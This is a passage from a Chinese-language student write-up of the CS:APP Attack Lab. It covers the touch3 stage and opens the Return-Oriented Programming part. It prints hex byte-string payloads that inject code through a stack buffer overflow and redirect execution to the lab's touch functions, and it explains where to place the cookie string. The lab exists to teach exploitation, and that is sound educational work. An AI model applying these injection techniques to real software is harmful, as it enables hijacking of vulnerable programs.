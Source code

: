 也行。

最终答案：

```
bf fa 97 b9 59 48 83 ec 20 c3 90 90 90 90 90 90 ec 17 40 00 00 00 00 00
64 64 64 64 64 64 64 64 65 65 65 65 65 65 65 65 78 dc 61 55 00 00 00 00
```

### 3. touch3()

看看`touch3()`：

```c
void touch3(char *sval) {
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```

`touch3()`的参数是一个字符串。在`touch3()`中，参数的字符串会和 cookie 转化成的字符串用`hexmatch()`比较，所以我们需要开两块地方，一个存放 cookie 字符串本身，一个存放字符串的地址。

我们再看看`hexmatch()`：

```c
int hexmatch(unsigned val, char *sval) {
    char cbuf[110];
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}
```

显然，它可能会覆盖原先`getbuf()`缓冲区的数据，所以把它放在哪里也是需要考虑的地方。最安全的做法应该是放在原先的返回地址后面。其他的同`touch2()`。

最终答案：

```
bf a8 dc 61 55 48 83 ec 20 c3 90 90 90 90 90 90 fa 18 40 00 00 00 00 00
64 64 64 64 64 64 64 35 39 62 39 39 37 66 61 00 78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61 00
```

## 第二部分 Return-Oriented Programming

为了防止直球代码注入，人们发明出了一些解决方法，例如以下两种：

- 随机化：函数的栈帧地址随机分配，每次运行都不一样
- 栈帧被标记为不可执行的

不幸的是，我们的新程序`./rtarget`运用了这些技术。
